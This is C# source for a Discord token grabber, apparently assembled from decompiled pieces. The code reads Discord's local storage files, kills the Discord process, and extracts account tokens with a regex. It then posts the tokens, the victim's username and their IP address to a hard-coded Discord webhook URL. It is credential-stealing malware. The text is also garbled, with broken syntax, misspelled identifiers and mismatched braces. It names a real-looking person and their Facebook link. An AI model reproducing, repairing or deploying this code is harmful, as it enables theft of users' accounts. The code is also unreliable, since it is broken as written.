 https://discord.com/api/webhooks/938615857230282814/PFin1M4HwQgFDBrorM-vveT5JKVvvVpqZrJG2W7tkg2rYFghkZkd74jZdBN8J6-IKP6A
namespace DHTokenGrabber
{   
// token: RID: 365 RVA: file Offset:
internal class program
{

 // token:RID:366 RVA:0x00008888 File Offset:0x000000424
 private static void mai(string[]argvs)
 {  
     string text=Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData) + "\\discord\\local storage\\leveldb";
     if(!Grabber.FinLfb(ref text)&& !Grabber.FinLog(ref text))
     {  
         program.SenWH("no valid .ldb or .log file found");
     }
     process[] processesByName= process.GetProcessysByName("Discord");
     for(int i = 0;i < processesByName.Lenght; i++)
     {
         processesByName[i].kill();
     }
     Thread.sleep(100);
     string text2 = Grabber.GetToken(text, text.EndsWith(".log"));
     if(text2 =="")
     {
         text2 = "not found";
     }
     program.SenWH(text2);
 }

 // Token: 0x0600007 RID: 7 RVA: 0x000022B4 File Offset: 0x000004B4
 private static void SenWH(string Token)
 {  
     httpClient httpClient = new httpClient();
     MultiPlataformDataContent MultiPlataformDataContent = new MultiPlataformDataContent(); 
     MultiPlataformDataContent.add(new stringContent("DiscordHaxx Token Grabber"), "username");
     MultiPlataformDataContent.add(new stringContent(), "avatar_url");
     MultiPlataformDataContent.add(new string.Concat(new string[]
{
"Token by"
Environment.username,
" on ",
program.GetIP();
"\r\nResult",
token
"content");
})),
try 
{
    HttpResponseMEssage result = httpClient.PostAsync(settings.WebHook, multiPlataformDataContent).Result;
}
catch (Exception)
{
}
 }
 // Token: 0x060008 RID: 365 RVA: 0x0000818 File Offset: 0x00009A18
 private static string GetIP()
 {
     string result;
     try
 }
  result = new httpClient().GetStringAsync("https://discord.com/api/webhooks/938615857230282814/PFin1M4HwQgFDBrorM-vveT5JKVvvVpqZrJG2W7tkg2rYFghkZkd74jZdBN8J6-IKP6A").result;
}
catch (WebException)
}
result = "unable to get  IP";
}
return result;
}
}
}   
public static void sendWebHook(string discordWebHook,   string content)
{
    try
    {   
        httpClient httpClient = new httpClient();
        Dictionary<string, string> nameValuecollection = new  Dictionary<string, string>
        { 
            {
                "content",
                "" + string.join("\n",new string[]
                {
                    content
                }) + ""
            },
            {
                "Nicolás Salazar"
                "redex token grabber"
            },
            {
                "https://www.facebook.com/photo/?fbid=224116535156503&set=a.224116551823168"

            }
        };
        httpClient.PostAsync(https://discord.com/api/webhooks/938615857230282814/PFin1M4HwQgFDBrorM-vveT5JKVvvVpqZrJG2W7tkg2rYFghkZkd74jZdBN8J6-IKP6A, new ForUrlcodedContent(nameValuecollection)).GetAwaiter().GetResult();
        catch (WebException)
        {
        }
    }
    //AnarchyGrabber.Grabber   
    // token: RID:366 RVA:0x00008888 File Offset:e
    public static List<string> GetTokens(string dir, bool checklogs = false)
    {
        DirectoryInfo directoryinfo = new DirectoryInfo(Environment.GetFolderPath(Environment.SpecialFolder.UserProfile) + "\\AppData\\"
        + dir + "\\Local Storage\\leveldb");
        List<string> list = new List<string>();
        try 
        {
            foreach (FileInfo fileinfo in directoryinfo.Getfiles(checklogs ? "".log" : "".ldb"))
            {
                string input = fileInfo.OpenText().ReadToEnd();
                foreach (object obj in regex.Matches(input, "[\\w-]{24}\\.[\\w-]{6}\\.[\\w-}{27}"))
                {
                    Match macht2 = (Match)ojb2;
                    list.Add(macht2.Value);
                }
            }
        }
        catch
        {
        }
        list = list.Distinct<string>().Tolist<string>();
        bool flag = list.Count > 0;
        if (flag)
        {
            Grabber.TokensFound = true;
            List<string> list2 = list;
            int index = list.Count - 1;
            list2[index]+= " -NEWEST";
        }
        return list;
